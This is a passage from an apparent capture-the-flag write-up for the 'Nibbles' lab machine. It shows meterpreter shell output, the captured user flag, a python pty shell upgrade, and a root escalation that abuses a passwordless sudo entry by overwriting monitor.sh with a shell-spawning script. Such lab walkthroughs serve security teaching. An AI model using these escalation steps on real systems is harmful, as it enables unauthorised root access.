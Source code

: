Now we got a meterpreter shell.<br>
user.txt is in the directory "/home/nibbler".
{% highlight shell %}
meterpreter > ls
Listing: /home/nibbler
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-12-29 12:29:56 +0200  .bash_history
40775/rwxrwxr-x   4096  dir   2017-12-11 05:04:04 +0200  .nano
100400/r--------  1855  fil   2017-12-11 05:07:21 +0200  personal.zip
100400/r--------  33    fil   2017-12-11 05:35:21 +0200  user.txt

meterpreter > cat user.txt
b02ff32bb332deba49eeaed21152c8d8
{% endhighlight %}

### 3. Getting Root

Currently, we have a meterpreter shell.<br>
To do more enumeration, obtain a full shell like following.
{% highlight shell %}
meterpreter > shell
Process 1716 created.
Channel 1 created.

which python
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/home/nibbler$
{% endhighlight %}

By the command "sudo -l", we can find that nibbler can run "/home/nibbler/personal/stuff/monitor.sh" as sudo with no password.
{% highlight shell %}
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l

sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
{% endhighlight %}

Then, create the file "/home/nibbler/personal/stuff/monitor.sh" with content spawning shell.
{% highlight shell %}
nibbler@Nibbles:/home/nibbler$ echo '#! /bin/sh' > /home/nibbler/personal/stuff/monitor.sh
<er$ echo '#! /bin/sh' > /home/nibbler/personal/stuff/monitor.sh  

nibbler@Nibbles:/home/nibbler$ echo 'sh -c /bin/sh' >> /home/nibbler/personal/stuff/monitor.sh
<er$ echo 'sh -c /bin/sh' >> /home/nibbler/personal/stuff/monitor.sh

nibbler@Nibbles:/home/nibbler$ cat /home/nibbler/personal/stuff/monitor.sh
cat /home/nibbler/personal/stuff/monitor.sh
#! /bin/sh
sh -c /bin/sh
{% endhighlight %}
